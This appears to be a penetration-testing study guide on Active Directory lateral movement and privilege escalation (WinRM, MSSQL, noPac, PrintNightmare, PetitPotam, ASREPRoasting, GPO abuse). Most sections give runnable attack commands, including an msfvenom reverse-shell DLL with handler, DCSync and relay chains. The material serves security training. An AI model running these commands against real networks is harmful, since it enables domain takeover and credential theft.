

# Privileged Access

In this section will cover:
- Privileged Access
- Kerberos "Double Hop" Problem
- Bleeding Edge Vulnerabilities
- Miscellaneous Misconfiguration

## Privileged Access

Once we gain a foothold in the domain, our goal shifts to advancing our position further by moving laterally or vertically to obtain access to other hosts, and eventually achieve domain compromise or some other goal, depending on the aim of the assessment. To achieve this, there are several ways we can move laterally.

There are several other ways we can move around a Windows domain:
- Remote Desktop Protocol (RDP) - is a remote access/management protocol that gives us GUI access to a target host
- PowerShell Remoting - also referred to as PSRemoting or Windows Remote Management (WinRM) access, is a remote access protocol that allows us to run commands or enter an interactive command-line session on a remote host using PowerShell
- MSSQL Server - an account with sysadmin privileges on an SQL Server instance can log into the instance remotely and execute queries against the database. This access can be used to run operating system commands in the context of the SQL Server service account through various methods

We can enumerate this access in various ways. The easiest, once again, is via BloodHound, as the following edges exist to show us what types of remote access privileges a given user has:
- CanRDP
- CanPSRemote
- SQLAdmin

### Remote Desktop

This access could be extremely useful to us as we could use the host position to:
- Launch further attacks
- We may be able to escalate privileges and obtain credentials for a higher privileged user
- We may be able to pillage the host for sensitive data or credentials

Using PowerView, we could use the Get-NetLocalGroupMember function to begin enumerating members of the Remote Desktop Users group on a given host.
````powershell
# Enumerating the Remote Desktop Users Group
> Get-NetLocalGroupMember -ComputerName <Computer> -GroupName "Remote Desktop Users"
````
We can search for the username in BloodHound to check what type of remote access rights they have either directly or inherited via group membership under Execution Rights on the Node Info tab. We could also check the Analysis tab and run the pre-built queries Find Workstations where Domain Users can RDP or Find Servers where Domain Users can RDP.

### WinRM

This could also be low-privileged access that we could use to hunt for sensitive data or attempt to escalate privileges or may result in local admin access, which could potentially be leveraged to further our access. We can again use the PowerView function Get-NetLocalGroupMember to the Remote Management Users group.
````powershell
# Enumerating the Remote Management Users Group
> Get-NetLocalGroupMember -ComputerName <Computer> -GroupName "Remote Management Users"
````
We can also utilize this custom Cypher query in BloodHound to hunt for users with this type of access. This can be done by pasting the query into the Raw Query box at the bottom of the screen and hitting enter.
````
# Custom Cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
````
**Establishing WinRM Session**
````
# From Windows
> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
> $cred = new-object System.Management.Automation.PSCredential ("<domain>\<user>", $password)
> Enter-PSSession -ComputerName <Computer> -Credential $cred

# From Linux
$ evil-winrm -i <IP> -u <user> -p <password>
````

### SQL Server Admin

BloodHound, once again, is a great bet for finding this type of access via the SQLAdmin edge. We can check for SQL Admin Rights in the Node Info tab for a given user or use this custom Cypher query to search:
````
# Custom Cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
````
- https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet

**Enumerating MSSQL Instances with PowerUpSQL**
````
>  Import-Module .\PowerUpSQL.ps1
>  Get-SQLInstanceDomain

# Authenticate and run custom queries or operating system commands
>  Get-SQLQuery -Verbose -Instance "<IP>,1433" -username "<domain>\<user>" -password "<password>" -query '<query>'
````
**Using mssqlclient.py**
````
# Authentication
$ mssqlclient.py <domain>/<user>@<IP> -windows-auth

# Choosing enable_xp_cmdshell
> enable_xp_cmdshell

# Enumerating our Rights on the System using xp_cmdshell
> xp_cmdshell whoami /priv
````

## Kerberos "Double Hop" Problem

There's an issue known as the "Double Hop" problem that arises when an attacker attempts to use Kerberos authentication across two (or more) hops. The issue concerns how Kerberos tickets are granted for specific resources. Kerberos tickets should not be viewed as passwords. They are signed pieces of data from the KDC that state what resources an account can access. When we perform Kerberos authentication, we get a "ticket" that permits us to access the requested resource (i.e., a single machine). On the contrary, when we use a password to authenticate, that NTLM hash is stored in our session and can be used elsewhere without issue.

The "Double Hop" problem often occurs when using WinRM/Powershell since the default authentication mechanism only provides a ticket to access a specific resource. This will likely cause issues when trying to perform lateral movement or even access file shares from the remote shell. In this situation, the user account being used has the rights to perform an action but is denied access. The most common way to get shells is by attacking an application on the target host or using credentials and a tool such as PSExec.

In the simplest terms, in this situation, when we try to issue a multi-server command, our credentials will not be sent from the first machine to the second.

Let's say we have three hosts: Attack host --> DEV01 --> DC01. Our Attack Host is a Parrot box within the corporate network but not joined to the domain. We obtain a set of credentials for a domain user and find that they are part of the Remote Management Users group on DEV01. We want to use PowerView to enumerate the domain, which requires communication with the Domain Controller, DC01.



When we connect to DEV01 using a tool such as evil-winrm, we connect with network authentication, so our credentials are not stored in memory and, therefore, will not be present on the system to authenticate to other resources on behalf of our user. When we load a tool such as PowerView and attempt to query Active Directory, Kerberos has no way of telling the DC that our user can access resources in the domain. This happens because the user's Kerberos TGT (Ticket Granting Ticket) ticket is not sent to the remote session; therefore, the user has no way to prove their identity, and commands will no longer be run in this user's context. In other words, when authenticating to the target host, the user's ticket-granting service (TGS) ticket is sent to the remote service, which allows command execution, but the user's TGT ticket is not sent. When the user attempts to access subsequent resources in the domain, their TGT will not be present in the request, so the remote service will have no way to prove that the authentication attempt is valid, and we will be denied access to the remote service.

### Workarounds

#### Workaround #1: PSCredential Object

After connecting to a remote host with domain credentials, we import PowerView and then try to run a command. As seen below, we get an error because we cannot pass our authentication on to the Domain Controller to query for the SPN accounts.
````bash
*Evil-WinRM* PS C:\Users\<user>\Documents> import-module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\<user>\Documents> get-domainuser -spn
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\Users\backupadm\Documents\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : DirectoryServicesCOMException
````
If we check with klist, we see that we only have a cached Kerberos ticket for our current server.
````bash
*Evil-WinRM* PS C:\Users\<user>\Documents> klist
#0> Client: <user> @ <domain>
    Server: <PC>$ @
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0xa10000 -> renewable pre_authent name_canonicalize
    Start Time: 6/28/2022 7:31:53 (local)
    End Time:   6/28/2022 7:46:53 (local)
    Renew Time: 7/5/2022 7:31:18 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0x4 -> S4U
    Kdc Called: DC01.INLANEFREIGHT.LOCAL
````
Fixed
````bash
# Create Credential
*Evil-WinRM* PS C:\Users\<user>\Documents> $SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\<user>\Documents>  $Cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $SecPassword)

# Execute the request with our credential
*Evil-WinRM* PS C:\Users\<user>\Documents> get-domainuser -spn -credential $Cred | select samaccountname
````

#### Workaround #2: Register PSSession Configuration

One trick we can use here is **registering** a **new session configuration** using the Register-PSSessionConfiguration cmdlet.
````powershell
# Registering a new session configuration
> Register-PSSessionConfiguration -Name <name> -RunAsCredential <domain>\<user>

Once this is done, we need to restart the WinRM service by typing Restart-Service WinRM in our current PSSession.

# Start New Session
> Enter-PSSession -ComputerName <PC> -Credential <domain>\<user> -ConfigurationName  <name>
````

## Bleeding Edge Vulnerabilities

When it comes to patch management and cycles, many organizations are not quick to roll out patches through their networks. Because of this, we may be able to achieve a quick win either for initial access or domain privilege escalation using a very recent tactic. 

### NoPac (SamAccountName Spoofing)

A great example of an emerging threat is the Sam_The_Admin vulnerability, also called noPac or referred to as SamAccountName Spoofing released at the end of 2021. This vulnerability encompasses two CVEs 2021-42278 and 2021-42287, allowing for intra-domain privilege escalation from any standard domain user to Domain Admin level access in one single command. 
````bash
# Setup
$ git clone https://github.com/Ridter/noPac.git

# Scanning for NoPac
$ sudo python3 scanner.py <domain>/<user>:<password> -dc-ip <DC_IP> -use-ldap

# Running NoPac & Getting a Shell
$ sudo python3 noPac.py <domain>/<user>:<password> -dc-ip <DC_IP>  -dc-host <host> -shell --impersonate administrator -use-ldap

# Using noPac to DCSync the Built-in Administrator Account
$ sudo python3 noPac.py <domain>/<user>:<password> -dc-ip <DC_IP>  -dc-host <host> --impersonate administrator -use-ldap -dump -just-dc-user <domain>/<user>
````
It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run.


### PrintNightmare (Other Version)

PrintNightmare is the nickname given to two vulnerabilities (CVE-2021-34527 and CVE-2021-1675) found in the Print Spooler service that runs on all Windows operating systems.
````bash
# Cloning the Exploit
$ git clone https://github.com/cube0x0/CVE-2021-1675.git

# Install cube0x0's Version of Impacket
$ pip3 uninstall impacket
$ git clone https://github.com/cube0x0/impacket
$ cd impacket
$ python3 ./setup.py install

# Enumerating for MS-RPRN
$ rpcdump.py @<DC_IP> | egrep 'MS-RPRN|MS-PAR'

# Generating a DLL Payload
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Our_IP> LPORT=<Our_Port> -f dll > backupscript.dll

# Creating a Share with smbserver.py
$ sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

# Configuring & Starting MSF multi/handler
>> use exploit/multi/handler
>> set PAYLOAD windows/x64/meterpreter/reverse_tcp
>> set LHOST <Our_IP>
>> set LPORT <Our_Port> 
>> run

# Running the Exploit
$ sudo python3 CVE-2021-1675.py <domain>/<user>:<password>@<DC_IP> '\\<Our_IP>\CompData\backupscript.dll'
````

### PetitPotam (MS-EFSRPC)

PetitPotam (CVE-2021-36942) is an LSA spoofing vulnerability that was patched in August of 2021. The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the Local Security Authority Remote Protocol (LSARPC) by abusing Microsoft’s Encrypting File System Remote Protocol (MS-EFSRPC). This technique allows an unauthenticated attacker to take over a Windows domain where Active Directory Certificate Services (AD CS) is in use. In the attack, an authentication request from the targeted Domain Controller is relayed to the Certificate Authority (CA) host's Web Enrollment page and makes a Certificate Signing Request (CSR) for a new digital certificate. This certificate can then be used with a tool such as Rubeus or gettgtpkinit.py from PKINITtools to request a TGT for the Domain Controller, which can then be used to achieve domain compromise via a DCSync attack.

If we didn't know the location of the CA, we could use a tool such as certi to attempt to locate it.
- https://github.com/zer1t0/certi

**Linux**
````bash
# Starting ntlmrelayx.py
$ sudo ntlmrelayx.py -debug -smb2support --target http://<host>.<domain>/certsrv/certfnsh.asp --adcs --template DomainController

# Running PetitPotam.py
$ python3 PetitPotam.py <attack host IP> <Domain Controller IP>

# Requesting a TGT Using gettgtpkinit.py
$ python3 gettgtpkinit.py <domain>/<Machine>\$ -pfx-base64 <base64_cert> dc01.ccache

# Setting the KRB5CCNAME Environment Variable
$ export KRB5CCNAME=dc01.ccache

# Using Domain Controller TGT to DCSync
$ secretsdump.py -just-dc-user <domain>/<user_wanted> -k -no-pass "<Machine>$"@<host>.<domain>
````
**Windows**
````powershell
# Requesting TGT and Performing PTT with DC01$ Machine Account
> .\Rubeus.exe asktgt /user:<machine>$ /certificate:<base64_cert> /ptt

# Confirming the Ticket is in Memory
> klist

# Performing DCSync with Mimikatz
# lsadump::dcsync /user:<domain>\<user>
````

## Miscellaneous Misconfigurations

### Exchange Related Group Membership

A default installation of Microsoft Exchange within an AD environment (with no split-administration model) opens up many attack vectors, as Exchange is often granted considerable privileges within the domain (via users, groups, and ACLs). The group Exchange Windows Permissions is not listed as a protected group, but members are granted the ability to write a DACL to the domain object. This can be leveraged to give a user DCSync privileges. An attacker can add accounts to this group by leveraging a DACL misconfiguration (possible) or by leveraging a compromised account that is a member of the Account Operators group. It is common to find user accounts and even computers as members of this group. Power users and support staff in remote offices are often added to this group, allowing them to reset passwords.
- https://github.com/gdedrouas/Exchange-AD-Privesc

The Exchange group Organization Management is another extremely powerful group (effectively the "Domain Admins" of Exchange) and can access the mailboxes of all domain users. It is not uncommon for sysadmins to be members of this group. This group also has full control of the OU called Microsoft Exchange Security Groups, which contains the group Exchange Windows Permissions.

### PrivExchange

The PrivExchange attack results from a flaw in the Exchange Server PushSubscription feature, which allows any domain user with a mailbox to force the Exchange server to authenticate to any host provided by the client over HTTP.

The Exchange service runs as SYSTEM and is over-privileged by default (i.e., has WriteDacl privileges on the domain pre-2019 Cumulative Update). This flaw can be leveraged to relay to LDAP and dump the domain NTDS database. If we cannot relay to LDAP, this can be leveraged to relay and authenticate to other hosts within the domain. This attack will take you directly to Domain Admin with any authenticated domain user account.

### Printer Bug

The Printer Bug is a flaw in the MS-RPRN protocol (Print System Remote Protocol). This protocol defines the communication of print job processing and print system management between a client and a print server. To leverage this flaw, any domain user can connect to the spool's named pipe with the RpcOpenPrinter method and use the RpcRemoteFindFirstPrinterChangeNotificationEx method, and force the server to authenticate to any host provided by the client over SMB.

The spooler service runs as SYSTEM and is installed by default in Windows servers running Desktop Experience. This attack can be leveraged to relay to LDAP and grant your attacker account DCSync privileges to retrieve all password hashes from AD.

The attack can also be used to relay LDAP authentication and grant Resource-Based Constrained Delegation (RBCD) privileges for the victim to a computer account under our control, thus giving the attacker privileges to authenticate as any user on the victim's computer. This attack can be leveraged to compromise a Domain Controller in a partner domain/forest, provided you have administrative access to a Domain Controller in the first forest/domain already, and the trust allows TGT delegation, which is not by default anymore.
````powershell
#  Enumerating for MS-PRN Printer Bug
> Import-Module .\SecurityAssessment.ps1
> Get-SpoolStatus -ComputerName <ComputerName>

ComputerName                        Status
------------                        ------
<ComputerName>                       True
````

### MS14-068

This was a flaw in the Kerberos protocol, which could be leveraged along with standard domain user credentials to elevate privileges to Domain Admin. A Kerberos ticket contains information about a user, including the account name, ID, and group membership in the Privilege Attribute Certificate (PAC). The PAC is signed by the KDC using secret keys to validate that the PAC has not been tampered with after creation.

The vulnerability allowed a forged PAC to be accepted by the KDC as legitimate. This can be leveraged to create a fake PAC, presenting a user as a member of the Domain Administrators or other privileged group. It can be exploited with tools such as the Python Kerberos Exploitation Kit (PyKEK) or the Impacket toolkit. 
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek

### Sniffing LDAP Credentials

Many applications and printers store LDAP credentials in their web admin console to connect to the domain. These consoles are often left with weak or default passwords. Sometimes, these credentials can be viewed in cleartext. Other times, the application has a test connection function that we can use to gather credentials by changing the LDAP IP address to that of our attack host and setting up a netcat listener on LDAP port 389. When the device attempts to test the LDAP connection, it will send the credentials to our machine, often in cleartext. Accounts used for LDAP connections are often privileged, but if not, this could serve as an initial foothold in the domain.
- https://grimhacker.com/2018/03/09/just-a-printer/

### Enumerating DNS Records

We can use a tool such as adidnsdump to enumerate all DNS records in a domain using a valid domain user account. If all servers and workstations have a non-descriptive name, it makes it difficult for us to know what exactly to attack. If we can access DNS entries in AD, we can potentially discover interesting DNS records.

The tool works because, by default, all users can list the child objects of a DNS zone in an AD environment. By default, querying DNS records using LDAP does not return all results. So by using the adidnsdump tool, we can resolve all records in the zone and potentially find something useful for our engagement.
- https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/
````bash
# Using adidnsdump
$ adidnsdump -u <domain>\\<user> ldap://<DC_IP>
````
If we run again with the -r flag the tool will attempt to resolve unknown records by performing an A query. 
````bash
$ adidnsdump -u <domain>\\<user> ldap://<DC_IP> -r
````

### Other Misconfigurations

#### Password in Description Field

Sensitive information such as account passwords are sometimes found in the user account Description or Notes fields and can be quickly enumerated using PowerView.
````powershell
# Finding Passwords in the Description Field using Get-Domain User
> Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
````

#### PASSWD_NOTREQD Field

It is possible to come across domain accounts with the passwd_notreqd field set in the userAccountControl attribute. If this is set, the user is not subject to the current password policy length, meaning they could have a shorter password or no password at all (if empty passwords are allowed in the domain).
````powershell
# Checking for PASSWD_NOTREQD Setting using Get-DomainUser
> Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
````

#### Credentials in SMB Shares and SYSVOL Scripts

The SYSVOL share can be a treasure trove of data, especially in large organizations. We may find many different batch, VBScript, and PowerShell scripts within the scripts directory, which is readable by all authenticated users in the domain. It is worth digging around this directory to hunt for passwords stored in scripts.

#### Group Policy Preferences (GPP) Passwords

When a new GPP is created, an .xml file is created in the SYSVOL share, which is also cached locally on endpoints that the Group Policy applies to. These files can include those used to:
- Map drives (drives.xml)
- Create local users
- Create printer config files (printers.xml)
- Creating and updating services (services.xml)
- Creating scheduled tasks (scheduledtasks.xml)
- Changing local admin passwords.

These files can contain an array of configuration data and defined passwords. The cpassword attribute value is AES-256 bit encrypted, but Microsoft published the AES private key on MSDN, which can be used to decrypt the password. Any domain user can read these files as they are stored on the SYSVOL share, and all authenticated users in a domain, by default, have read access to this domain controller share.
- https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN

GPP passwords can be located by searching or manually browsing the SYSVOL share or using tools such as Get-GPPPassword.ps1, the GPP Metasploit Post Module, and other Python/Ruby scripts which will locate the GPP and return the decrypted cpassword value. CrackMapExec also has two modules for locating and retrieving GPP passwords.
````bash
# Using NETExec's gpp_autologin Module
$ nxc smb <DC_IP> -u <user> -p <password> -M gpp_autologin
````

#### ASREPRoasting

It's possible to obtain the Ticket Granting Ticket (TGT) for any account that has the Do not require Kerberos pre-authentication setting enabled. Many vendor installation guides specify that their service account be configured in this way. The authentication service reply (AS_REP) is encrypted with the account’s password, and any domain user can request it.

With pre-authentication, a user enters their password, which encrypts a time stamp. The Domain Controller will decrypt this to validate that the correct password was used. If successful, a TGT will be issued to the user for further authentication requests in the domain. If an account has pre-authentication disabled, an attacker can request authentication data for the affected account and retrieve an encrypted TGT from the Domain Controller. This can be subjected to an offline password attack using a tool such as Hashcat or John the Ripper.

If an attacker has GenericWrite or GenericAll permissions over an account, they can enable this attribute and obtain the AS-REP ticket for offline cracking to recover the account's password before disabling the attribute again. Like Kerberoasting, the success of this attack depends on the account

**Enumeration & Exploitation**
````
# Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser
> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

# Method 1 - Rubeus
# Retrieving AS-REP in Proper Format using Rubeus
> .\Rubeus.exe asreproast /user:<user> /nowrap /format:hashcat

# Cracking the Hash Offline with Hashcat
$ hashcat -m 18200 asrep /usr/share/wordlists/rockyou.txt

# Method 2 - Kerbrute
# Retrieving the AS-REP Using Kerbrute
$ kerbrute userenum -d <domain> --dc <DC_IP> /opt/jsmith.txt

# Method 3 - Get-NPUsers.py
# Hunting for Users with Kerberos Pre-auth Not Required
$ GetNPUsers.py <domain>/ -dc-ip <DC_IP> -no-pass -usersfile valid_ad_users
````

#### Group Policy Object (GPO) Abuse

Group Policy provides administrators with many advanced settings that can be applied to both user and computer objects in an AD environment. Group Policy, when used right, is an excellent tool for hardening an AD environment by configuring user settings, operating systems, and applications. That being said, Group Policy can also be abused by attackers. If we can gain rights over a Group Policy Object via an ACL misconfiguration, we could leverage this for lateral movement, privilege escalation, and even domain compromise and as a persistence mechanism within the domain. Understanding how to enumerate and attack GPOs can give us a leg up and can sometimes be the ticket to achieving our goal in a rather locked-down environment.

GPO misconfigurations can be abused to perform the following attacks:
- Adding additional rights to a user (such as SeDebugPrivilege, SeTakeOwnershipPrivilege, or SeImpersonatePrivilege)
- Adding a local admin user to one or more hosts
- Creating an immediate scheduled task to perform any number of actions

We can enumerate GPO information using many of the tools we've been using throughout this module such as PowerView and BloodHound. We can also use group3r, ADRecon, PingCastle, among others, to audit the security of GPOs in a domain.
````powershell
# Enumerating GPO Names with PowerView
> Get-DomainGPO |select displayname

# Enumerating GPO Names with a Built-In Cmdlet
> Get-GPO -All | Select DisplayName

# Enumerating Domain User GPO Rights
> $sid=Convert-NameToSid "Domain Users"
> Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}
````
We could use a tool such as SharpGPOAbuse to take advantage of this GPO misconfiguration by performing actions such as adding a user that we control to the local admins group on one of the affected hosts, creating an immediate scheduled task on one of the hosts to give us a reverse shell, or configure a malicious computer startup script to provide us with a reverse shell or similar.
- https://github.com/FSecureLABS/SharpGPOAbuse
